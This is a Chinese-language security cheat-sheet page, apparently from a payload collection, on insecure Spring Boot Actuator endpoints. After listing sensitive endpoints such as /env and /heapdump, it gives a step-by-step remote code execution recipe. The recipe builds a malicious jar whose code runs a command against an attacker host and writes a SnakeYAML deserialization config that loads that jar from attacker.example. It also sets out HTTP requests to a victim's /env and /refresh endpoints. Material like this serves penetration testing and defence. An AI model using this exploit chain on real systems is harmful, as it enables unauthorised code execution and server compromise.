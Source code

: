 # 不安全的管理接口

## Springboot-Actuator

Actuator 端点允许您监控和与您的应用程序进行交互。
Spring Boot 包括许多内置端点，并允许您添加自己的端点。
例如，`/health` 端点提供基本的应用程序健康信息。

它们中的一些包含敏感信息，例如：

- `/trace` - 显示跟踪信息（默认情况下为最后100个HTTP请求及其头部）。
- `/env` - 显示当前环境属性（来自Spring的ConfigurableEnvironment）。
- `/heapdump` - 构建并返回我们应用程序使用的JVM的堆转储。
- `/dump` - 显示线程转储（包括堆栈跟踪）。
- `/logfile` - 输出日志文件的内容。
- `/mappings` - 显示所有MVC控制器映射。

在Springboot 1.X中，这些端点默认是启用的。
注意：通过HTTP访问敏感端点时将需要用户名/密码。

自Springboot 2.X起，默认仅启用`/health`和`/info`。

### 通过`/env`实现远程代码执行

Spring能够以YAML格式加载外部配置。
YAML配置使用SnakeYAML库解析，该库容易受到反序列化攻击。
换句话说，攻击者可以通过加载恶意配置文件获得远程代码执行。

#### 步骤

1. 生成SnakeYAML反序列化小工具的负载。

- 构建恶意jar文件

```bash
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload
# 在执行最后几个命令之前编辑有效负载（见下文）
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

- 编辑src/artsploit/AwesomeScriptEngineFactory.java

```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("ping rce.poc.attacker.example"); // 在此处插入命令
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

- 创建恶意yaml配置（yaml-payload.yml）

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker.example/yaml-payload.jar"]
  ]]
]
```

2. 将恶意文件托管在您的服务器上。

- yaml-payload.jar
- yaml-payload.yml

3. 更改`spring.cloud.bootstrap.location`为您的服务器。

```
POST /env HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

spring.cloud.bootstrap.location=http://attacker.example/yaml-payload.yml
```

4. 重新加载配置。

```
POST /refresh HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

## 参考资料

* [Springboot - 官方文档](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-endpoints.html)
* [利用Spring Boot Actuators - Veracode](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)
